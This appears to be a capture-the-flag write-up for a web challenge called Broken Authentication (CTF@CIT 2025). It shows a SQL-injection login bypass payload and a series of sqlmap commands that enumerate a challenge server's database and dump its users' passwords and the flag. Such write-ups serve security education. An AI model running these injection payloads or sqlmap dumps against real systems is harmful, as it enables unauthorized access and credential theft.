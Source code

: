```yaml
---
name: Broken Authentication (2025)
event: CTF@CIT CTF 2025
category: Web
description: Writeup for Broken Authentication (Web) - CTF@CIT CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Broken Authentication

[![](https://img.youtube.com/vi/ZBdApaw0r0M/0.jpg)](https://www.youtube.com/watch?v=ZBdApaw0r0M?t=6 "Breaking Authentication (CIT CTF)")

## Description

> Say my username.

## Solution

### Part 1: SQL Injection (Auth Bypass)

Basic login page. When we submit the username as `''` it returns the following error.


```bash
Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1 in /var/www/html/index.php:23
Stack trace:
#0 /var/www/html/index.php(23): mysqli-&gt;query('SELECT * FROM u...')
#1 {main}
  thrown in <b>/var/www/html/index.php
```


Submit username and password as `' or '1'='1` and bypass the login panel.

### Part 2: SQLi (DB Enumeration)

The admin panel says `As you can probably tell, this page is currently under construction.`

Checked the source, cookies, technologies etc but doesn't appear to be anything of use. Perhaps the flag is in the username/password and we need to return to the SQLi.


```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch
```


It finds the SQLi, so we dump the creds:


```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch -T users --dump

+---------+----------+--------------+----------+
| email   | fullname | password     | username |
+---------+----------+--------------+----------+
| <blank> | <blank>  | m1n3r41s     | hank     |
| <blank> | <blank>  | 9f3IC3uj9^zZ | admin    |
| <blank> | <blank>  | M4GN375      | jesse    |
| <blank> | <blank>  | b4byb1u3     | walter   |
+---------+----------+--------------+----------+
```


Tried to login with each account in case the admin UI changed, but it did not.

Let's see if there's any other tables.


```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch -D app --tables

+---------+
| secrets |
| users   |
+---------+
```


Nice! `secrets` sounds pretty promising 👀


```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch -T secrets --dump

+--------+-----------------------+
| name   | value                 |
+--------+-----------------------+
| flag   | CIT{36b0efd6c2ec7132} |
+--------+-----------------------+
```


Flag: `CIT{36b0efd6c2ec7132}`
